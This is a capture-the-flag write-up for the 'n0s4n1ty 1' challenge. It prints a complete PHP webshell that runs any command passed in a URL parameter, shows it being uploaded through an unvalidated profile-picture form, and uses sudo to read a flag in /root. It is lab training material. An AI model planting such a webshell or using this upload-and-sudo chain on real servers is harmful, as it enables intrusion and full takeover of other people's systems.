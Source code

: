 # n0s4n1ty 1

The challenge starts by giving us a simple page containing just a profile upload interface.

![image.png](image.png)

Trying to type or browse through the URL doesn’t give us anything — only a page error. With that, we can assume that the easiest way (and probably the intended way) to proceed is to **upload a shell**.

We don’t need to overthink and build something from scratch — simple solutions often work. So, after a quick search, we found this **simple PHP webshell** shared on Discord ([https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

### Breaking down the code into simple steps:

- `<form>` → Creates a **form with an input box and a button**.
- `method="GET"` → Means it will **send the text via the URL** (at the top of the browser).
- `name="<?php echo basename($_SERVER['PHP_SELF']); ?>"` → Just gives the form a name using the current file name.
- `<input type="TEXT" name="cmd">` → This is the **box where you type a command**.
- `<input type="SUBMIT">` → This is the **“Execute” button**.
- `if (isset($_GET['cmd']))` → Checks if someone **typed something and pressed the button**...
- `system($_GET['cmd'] . ' 2>&1');` → The server **runs the command in the terminal** and shows the result.

After uploading the file, the page refreshes and tells us that our file is located at `/uploads/photo.php`. Visiting that path, we see our shell is working as expected.

![image.png](image%201.png)

We use the command `id` to check which user is running our commands. As expected, the user is **www-data**.

![image.png](image%202.png)

One of the hints in the challenge tells us that, once we gain shell access, we should try running `sudo -l`. From this, we learn that the `www-data` user can execute anything **as long as it's run with `sudo`**

![image.png](image%203.png)

As mentioned in the challenge, the flag is located in `/root`. And indeed, when we run the following command, there it is: 

![image.png](image%204.png)

If we try just `sudo cat flag.txt`, it returns “file not found,” so we need to pass the **full path**. And with that, we successfully retrieve the flag.

![image.png](image%205.png)